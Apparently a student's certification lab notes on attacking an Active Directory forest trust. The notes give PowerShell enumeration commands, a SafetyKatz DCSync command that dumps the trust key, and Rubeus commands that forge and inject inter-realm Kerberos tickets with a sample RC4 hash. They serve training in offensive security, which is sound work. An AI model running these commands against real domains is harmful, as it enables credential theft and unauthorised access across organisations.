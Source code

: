 # Methodology
>1. Dump the trust key of the child domain.
>2. Check if SID Filtering is enabled.
>3. Forge an inter-forest ticket.
>4. Inject the ticket. 
>5. Enumerate group RID > 1000 on the target domain.
>6. Forge an inter-forest ticket with special SIDS.
>7. Inject the ticket


>**ℹ️ Info:**
>In this example we go from `eu.local` to `euvendor.local` .

---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## AD Module
**Check if SID Filtering is enabled:**
```powershell
Get-ADTrust -Filter *
```

**Look for groups with RID higher than 1000:**
```powershell
Get-ADGroup -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server euvendor.local
```

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz
**Dump trust key for the inter-forest trust:**
```cmd
SafetyKatz.exe '"lsadump::dcsync /user:eu\euvendor$"'
```

## Rubeus

**Forge an inter-realm TGT:**
```cmd
Rubeus.exe silver /user:Administrator /ldap /service:krbtgt/eu.local /rc4:b96659c7b2109d2e63e6de676d48646c /sid:S-1-5-21-3657428294-2017276338-1274645009 /nowrap 
```

**Inject the ticket:**
```cmd
Rubeus.exe asktgs /ticket:doIFEzCCBQ /service:CIFS/euvendor-dc.euvendor.local /dc:euvendordc.euvendor.local /ptt
```

>**ℹ️ Info:**
>We can only access specific resources that are explicitly shared!

**Forge a TGS using inter-realm TGT:**
```cmd
Rubeus.exe asktgs /service:http/euvendornet.euvendor.local /dc:euvendor-dc.euvendor.local /ptt /ticket:doIFOzCCBT...
```